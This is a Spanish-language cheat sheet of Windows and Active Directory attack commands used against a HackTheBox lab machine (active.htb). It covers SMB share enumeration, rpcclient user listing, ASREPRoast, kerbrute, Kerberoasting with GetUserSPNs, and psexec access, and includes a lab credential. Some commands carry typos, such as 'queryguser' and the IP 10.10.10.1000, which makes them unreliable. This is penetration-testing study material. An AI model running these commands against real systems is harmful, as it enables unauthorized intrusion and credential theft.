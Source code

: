 ## Windows

El objetivo de esta página es documentar los comandos mas utilizados en enumeración y explotaciónde máquinas Windows.

### crackmapexek

Para ver info de un equipo sin credenciales:

<pre>
crackmapexec smb 10.10.10.100 
</pre>

Para ver recursos compartidos sin credenciales:

<pre>
  crackmapexec smb 10.10.10.100  --shares
</pre>

Para conectar con credenciales:

<pre>
  crackmapexec smb 10.10.10.100  -u 'usuario' -p 'password' --shares
</pre>

### smbmap

Para conectar a un host sin credenciales, nos lista unidades sin credenciales:

<pre>
smbmap -H 10.10.10.1000
</pre>

Para conectar ver lo que tiene un recurso, paramero -r:

<pre>
smbmap -H 10.10.10.1000 -r Replication
</pre>

Para descargarnos algo, parámetro --download

<pre>
smbmap -H 10.10.10.100 --download Replication/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
</pre>

Con credenciales:

<pre>
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -r Groups
</pre>

### smbclient

Visualizar sin credenciales:

<pre>
smbclient -L //10.10.10.100/Replication -N

</pre>

### rpcclient

Una vez que tenemos credencales nos podemos conectar co  **rpcclient**:

<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100
</pre>

Tambien es posible a veces conectarse con sesion null:
<pre>
rpcclient -U "" 10.10.10.100 -N
</pre>

Con credenciales, listamos usuarios del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomusers'
</pre>


Con credenciales, listamos grupos del dominio:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'enumdomgroups'
</pre>


Con credenciales, usuarios de un grupo. Pasamos el id de grupo:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygroupmem 0x200'
</pre>



Con credenciales, Info de un  usuario por su id:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'queryguser 0x1f4'
</pre>

Con credenciales, ver las desripciones de todos los usuarios:
<pre>
rpcclient -U "USUARIO%CONTRASEÑA" 10.10.10.100 -c 'querygdispinfo'
</pre>

### rpcenum

Herramienta de s4vitar para enumerar usuarios y grupos de un dominio. Revisar m´áquina Active de HTB para ver como configurarla.

### ASREPRoast Attack

Cuando solo se dispone de usuarios, sin credenciales, **y estando en un entorno de active directory** se puede intentar un ASREPRoast Attack con GetNPUsers:
<pre>
GetNPUsers.py active.htb/ -no-pass -usersfile users.txt 
</pre>

### Kerbrute

Si está el puerto de kerberos aberto, el 88, se puede usar kerbrute para enumerar teniendo un diccionario.
<pre>
kerbrute userenum -dc 10.10.10.100 -d active.htb /usr/share/wordlists/SecList/Usernames/Names/names.txt
</pre>

### GetUsersSPNs

Si no es Kerberoasteable podemos usar esta opción para enumerar.

<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA
</pre>

Si hay resultado se puede obtener un TGS, (Ticket Garanting Service). El hash se puede intentar romper con john


<pre>
GetUsersSPNs.py active.htb/USUARIO:CONTRASEÑA -request
</pre>


### PSEXEC

Si con **crackmapexec smb** nos aparece **Pwned** podemos obtener acceso con psexec:

<pre>
psexec.py active.htb/Administrator:CONTRASEÑA@10.10.10.100 cmd.exe
</pre>

## TRUCOS

### Sincronizar reloj

Para ataques ASREPRoast o kerbrute hay que sincronizar el reloj con el de la maquina active directory:

<pre>
ntpdate 10.10.10.100
</pre>

Con **date -s** podemos volver a dejar la fecha igual. Investigar como.
